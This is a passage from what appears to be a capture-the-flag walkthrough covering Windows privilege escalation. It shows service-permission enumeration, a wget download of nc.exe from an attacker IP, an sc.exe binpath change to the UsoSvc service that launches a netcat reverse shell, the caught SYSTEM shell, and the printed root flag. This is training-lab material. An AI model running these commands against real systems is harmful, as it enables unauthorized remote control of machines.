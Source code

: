[+] Vulnerable service: UsoSvc - C:\\Windows\\system32\\svchost.exe -k netsvcs
-p

[\*] Checking for unattended install files...

[\*] Checking %PATH% for potentially hijackable .dll locations...

[\*] Checking for AlwaysInstallElevated registry key...

[\*] Checking for Autologon credentials in registry...

[\*] Checking for encrypted web.config strings...

[\*] Checking for encrypted application pool and virtual directory passwords...

To abuse these permissions netcat is downloaded to the vicitm’s system as shown
below.

PS C:\\windows\\system32\\inetsrv\> cd C:\\inetpub\\wwwroot

PS C:\\inetpub\\wwwroot\> wget "http://10.10.14.224/nc.exe" -outfile "nc.exe"

Once the netcat is downloaded, sc.exe can be used to modify binpath of the
service and insert above download nc executable with reverse shell command
pointing to the attacking machine.

PS C:\\inetpub\\wwwroot\> sc.exe config UsoSvc binpath=
"C:\\inetpub\\wwwroot\\nc.exe -nv 10.10.14.224 8080 -e
C:\\WINDOWS\\System32\\cmd.exe"

[SC] ChangeServiceConfig SUCCESS

After the modifications to the service are done the service needs to be
restarted. However, before restarting the service make sure that netcat is
listening on the attacker machine. As shown below, first stop the service and
then start the service again.

PS C:\\inetpub\\wwwroot\> net stop UsoSvc

The Update Orchestrator Service service is stopping.

The Update Orchestrator Service service was stopped successfully.

PS C:\\inetpub\\wwwroot\> net start UsoSvc

Once the service is restarted the reverse shell command should be executed with
netcat on victim’s machine and the netcat on attacker’s machine should receive
it as show below.

root\@lifesfun:\~\# nc -nvlp 8080

listening on [any] 8080 ...

connect to [10.10.15.156] from (UNKNOWN) [10.10.10.180] 49757

Microsoft Windows [Version 10.0.17763.107]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\\Windows\\system32\>type C:\\Users\\Administrator\\Desktop\\root.txt

type C:\\Users\\Administrator\\Desktop\\root.txt

29c16c8e6518ae7aacee614fe6e1c599
